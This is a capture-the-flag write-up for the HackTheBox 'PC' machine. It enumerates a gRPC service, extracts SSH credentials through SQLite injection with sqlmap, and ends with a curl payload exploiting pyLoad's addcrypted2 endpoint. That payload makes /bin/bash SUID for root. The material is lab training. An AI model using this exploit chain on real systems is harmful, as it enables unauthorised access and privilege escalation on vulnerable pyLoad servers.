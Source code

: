# HackTheBox - PC
<p align="center"><b>rating: EASY</b></p>

Pathway to foothold, found gRPC running on port 50051

resources for understanding gRPC:

https://grpc.io/docs/what-is-grpc/
https://grpc.io/docs/languages/go/basics/
https://grpc.io/docs/guides/


For communicating with gRPC in terminal:
https://github.com/fullstorydev/grpcurl

GUI for communicating with gRPC using gRPCurl

command to list services available:
grpcurl -plaintext 10.10.11.214:50051 list

SimpleApp
grpc.reflection.v1alpha.ServerReflection

list the methods available for the SimpleApp service:
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp

SimpleApp.LoginUser
SimpleApp.RegisterUser
SimpleApp.getInfo


create an account with this command
grpcurl -plaintext -d '{"username": "username", "password": "password"}'  pc.htb:50051 SimpleApp/RegisterUser

intercept POST request for getInfo, and see that the 'id' parameter is vulnerable to SQLite injection

copy the POST request and run in through sqlmap using ```sqlmap -r getInfo.req --dump```

get the password for ssh

+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----

using linpeas, see that there is a service running on port 8000

forward the port using ```ssh -L 8000:localhost:8000 sau@pc.htb```

see that the service is pyLoad.  Check pyLoad version, and see that it is vulnerable


curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'